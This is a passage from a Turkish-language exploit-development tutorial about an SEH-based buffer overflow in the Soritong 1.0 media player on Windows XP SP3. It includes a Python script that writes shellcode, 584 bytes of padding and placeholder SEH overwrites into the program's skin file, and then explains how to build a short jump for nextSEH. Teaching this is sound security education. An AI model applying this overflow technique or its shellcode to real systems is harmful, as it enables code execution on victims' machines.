 Offsetimiz 584 karaktermiş. Ne olur ne olmaz biz genede bir test edelim :D

```python
# Soritong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*584
nextSEH = b"BBBB"
SEH = b"CCCC"

exploit = padding + nextSEH + SEH

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()

```

![11](img/0x03/11.png)

Evet 584 adet A karakterinden sonra 4 tane B nextSEH üzerine ve 4 tane C SE Handler üzerine yazıldı.

nextSEH için bizim bir jmp işlemi yaptırmamız gerekiyor. `JMP` işleminin opcode karşılığı `\xeb` , yanına bir de kaç karakter sıçraması gerektiğini yazacağız (örneğin \xeb\x03). Yani bizim jump işlemi 2 byte 'dan oluşuyor ancak nextSEH üzerine 4 byte yazmamız lazım. Bunun içinde 2 byte'lık işlemimizin yanına 2 byte `NOP` eklemiş olacağız.
